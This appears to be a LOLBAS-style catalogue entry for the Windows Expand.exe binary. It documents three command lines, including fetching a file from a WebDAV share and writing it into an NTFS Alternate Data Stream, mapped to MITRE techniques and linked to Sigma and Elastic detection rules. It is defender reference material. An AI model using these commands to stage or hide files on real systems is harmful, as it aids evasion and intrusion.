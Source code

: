 ```yaml
---
Name: Expand.exe
Description: Binary that expands one or more compressed files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.bat
    Description: Copies source file to destination.
    Usecase: Use to copies the source file to the destination file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: expand c:\ADS\file1.bat c:\ADS\file2.bat
    Description: Copies source file to destination.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
    Description: Copies source file to destination Alternate Data Stream (ADS)
    Usecase: Copies files from A to B
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\Expand.exe
  - Path: C:\Windows\SysWOW64\Expand.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b25fbbea54014565fc4551f94c97c0d7550b1c04/rules/windows/process_creation/sysmon_expand_cabinet_files.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
Resources:
  - Link: https://twitter.com/infosecn1nja/status/986628482858807297
  - Link: https://twitter.com/Oddvarmoe/status/986709068759949319
Acknowledgement:
  - Person: Rahmat Nurfauzi
    Handle: '@infosecn1nja'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```


